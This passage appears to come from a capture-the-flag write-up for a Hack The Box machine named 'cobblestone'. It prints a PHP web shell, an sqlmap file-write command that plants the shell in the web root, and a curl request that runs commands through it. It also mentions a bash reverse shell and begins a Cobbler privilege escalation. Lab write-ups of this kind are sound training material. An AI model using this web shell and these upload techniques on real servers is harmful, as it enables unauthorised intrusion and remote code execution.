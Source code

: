 The upload is possible, so we try a simple PHP payload: 

```php 
<?php system($_GET['cmd']); ?>
```
{: file="shell.php"}

```bash 
sqlmap -r request.txt -p url --file-write=shell.php --file-dest=/var/www/html/shell.php
```

Which is then confirmed: 

```bash
curl "http://cobblestone.htb/shell.php?cmd=id" --output -
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

At this point, I tried a lot of PHP rev shell payloads, uploaded them and accessing them lead to no hitback on the listener.
The only way it worked was to upload a bash reverse shell to the server, and then execute it, all through `curl`.
And proved correct:

![lekhraniya](assets/htb-cobble-14.png)

## Privilege Escalation

For privilege escalation, we have a very restricted shell, which was painfully reallistic. Until.

Running `ss`: 
```bash 
ss -tulnp
```

And we have a service at port `TCP/25115`. This was cobbler's used port. Check out what is the [Cobbler](https://cobbler.github.io/) service.

>Cobbler is a Linux provisioning and deployment server designed to simplify the setup of network-based installations. It allows administrators to automatically install operating systems, manage system profiles, and configure network boot environments (PXE) across many machines. Key features include:
- OS provisioning: Automates the installation of Linux distributions on bare-metal or virtual machines.
